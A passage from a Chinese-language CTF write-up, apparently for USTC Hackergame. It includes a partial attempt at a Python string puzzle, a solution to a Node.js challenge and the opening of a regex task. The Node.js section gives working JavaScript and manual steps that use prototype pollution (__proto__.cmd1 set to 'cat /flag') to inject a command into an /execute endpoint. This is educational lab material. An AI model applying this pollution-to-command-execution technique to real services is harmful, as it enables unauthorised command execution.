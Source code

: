 ```python
    poly, poly_degree = 'B', 48
```

注意到这一行只有 $32$ 个字符，而根据说明，每一行应该都有 $80$ 个字符。因此，我们需要在 `B` 后面补上 $48$ 个合适的字符，使得整行长度为 $80$。根据 `creat` 规则，此字符串有可能由一个 `e`/`E` 结尾；根据 `referer` 规则，剩余部分应该均为 `b`/`B`。

注意到下一行代码：

```python
assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B'
```

那么我们可以推断出，`poly` 应为 `BxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxB` 的形式，其中 `x` 为 `b`/`B`。然后不会了（悲

## Node.js is Web Scale

考虑原型链污染，从而将任意命令注入到 `cmds`。

1. 设置 `store.__proto__.cmd1` 为 `"cat /flag"`
2. 此时，所有的对象都会继承这个属性，也就是说 `cmds.cmd1 === "cat /flag"`
3. 调用 `/execute` 接口即可执行命令

```javascript
const params = new URLSearchParams();
function set(key, value) {
    fetch("/set", {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ key, value })
    }).then(r => r.text()).then(console.log);
}
function execute(cmd) {
    params.set("cmd", cmd);
    fetch("/execute?" + params.toString()).then(r => r.text()).then(console.log);
}
// Prototype chain pollution
set("__proto__.cmd1", "cat /flag");
// Call the command
execute("cmd1");
```

如果不想用代码，也可以手动操作：

1. 在 `Set Key-Value Pair` 中设置 Key 为 `__proto__.cmd1`，Value 为 `cat /flag`
2. 打开链接 `https://chal03-y5v7klns.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=cmd1`

## 强大的正则表达式

### Easy

> 编写一个正则表达式，匹配可被 $16$ 整除的十进制数。
